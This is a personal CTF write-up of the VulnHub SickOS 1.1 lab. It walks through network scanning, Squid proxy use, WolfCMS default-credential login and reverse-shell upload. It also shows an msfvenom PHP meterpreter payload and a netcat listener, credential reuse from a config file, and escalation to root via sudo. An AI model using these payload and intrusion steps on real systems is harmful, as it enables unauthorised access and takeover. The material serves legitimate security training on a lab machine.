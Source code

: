 ```yaml
---
layout: post
title:  CTF_SickOs
date:   2022-01-08 18:15:52 -0600
categories: CTF
tags: Linux
---
```


# Discovery

[https://www.vulnhub.com/entry/sickos-11,132/]

## Description
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.

Objective...: Get /root/a0216ea4d51874464078c618298b1367.txt

# Scanning

## netdiscover

sudo netdiscover

![](https://i.imgur.com/yo8M1tX.png)


## nmap

![](https://i.imgur.com/EjsxJkm.png)


# Exploit
http-proxy Squid http proxy 3.1.19

[https://www.exploit-db.com/exploits/9951]
Let's use Metasploit.
```zsh
sudo msfconsole
search squid
```
![](https://i.imgur.com/w2MXcME.png)
#### Use the proxy
I dont set the proxy in my browser because I want to try the dirbuster.
```zsh
export http_proxy='http://192.168.0.26:3128'
curl http://192.168.0.26   
```
#### gobuster

```zsh
gobuster dir -x * -u http://192.168.0.26 -w Documents/wordlist/directory-list-2.3-medium.txt 
``` 
![](https://i.imgur.com/ZGAblDU.png)
/index                (Status: 200) [Size: 21]
/connect              (Status: 200) [Size: 109]
/robots               (Status: 200) [Size: 45] 
/server-status        (Status: 403) [Size: 293]

connect is a python file
```python
  1 #!/usr/bin/python
  2 
  3 print "I Try to connect things very frequently\n"
  4 print "You may want to try my services"
``` 
I don't know what to do with it.

In robots.txt
```
User-agent: *
Disallow: /
Dissalow: /wolfcms
```
Let's see what is wolfcms and see if we can exploit it.
![](https://i.imgur.com/zGLfr3c.png)
https://www.exploit-db.com/exploits/38000
```
http://192.168.0.26/wolfcms/?/admin/plugin/file_manager/browse/
```
Now we have a login page, let's try with admin/admin.
![](https://i.kym-cdn.com/photos/images/facebook/001/379/666/feb.jpg)
![](https://i.imgur.com/4Tgdowv.png)

## metasploit
I'm gonna upload a revers shell, usualy I use thoses from pentestmonkey with netcat, but this time I'm gonna use metasploit.
```zsh
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.21 LPORT=4444 -f raw -o shell.php
```
And upload the shell.php in the website.

Run msfconsole to start the listener:

```zsh
use exploit/multi/handler 
set LHOST <$LOCAL_IP>
set LPORT <$LOCAL_PORT>
set PAYLOAD php/meterpreter/reverse_tcp 
exploit
```
![](https://i.imgur.com/hQGt9Ad.png)
![](https://i.imgur.com/CEY9ICE.png)
I don't know where is my error, I just want a shell so bye bye metasploit.
## Reverse shell

I'm gonna download the reverse shell from pentestmonkey.
[https://github.com/pentestmonkey/php-reverse-shell]
And change the values.
![](https://i.imgur.com/SDx3wz7.png)
you can also replace the shell.
[https://netsec.ws/?p=337]

Upload the shell and listen with netcat.
```zsh
netcat -nlvp 4444
```
![](https://i.imgur.com/xyldqe4.png)

let's upgrade the shell with this.
```zsh
python -c 'import pty; pty.spawn("/bin/bash")'
```
# Recon 
Let's upload the LinEnum script and run it.
![](https://i.imgur.com/gtZDQ0a.png)
I want to create a txt file because it's hard to read.
![](https://i.imgur.com/Upnc7Ed.png) 
It's too hard to read I'm gonna find something else.
[https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh]
I like this one, there is lot of colors.
I think I foud it.
![](https://i.imgur.com/PLiZAJV.png)
We can edit connect.py to open a revershell with an another port,
and listen with netcat
It's not working, let's see more informations.
![](https://i.imgur.com/qnNZ3ve.png)
Ok this file is not for now, I think I have to find the user first, not the root.

```zsh
cat /var/www/wolfcms/config.php

// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```
The user is not working for root, but for sickos it's good.
```zsh
ssh sickos@192.168.0.26
john@123
```

Now I'm gonna run the enumeration script with the user sickOS

![](https://i.imgur.com/nM0aAHv.png)
```zsh
sudo su
```

I'm root.
![](https://i.imgur.com/tdk9zei.png)

)






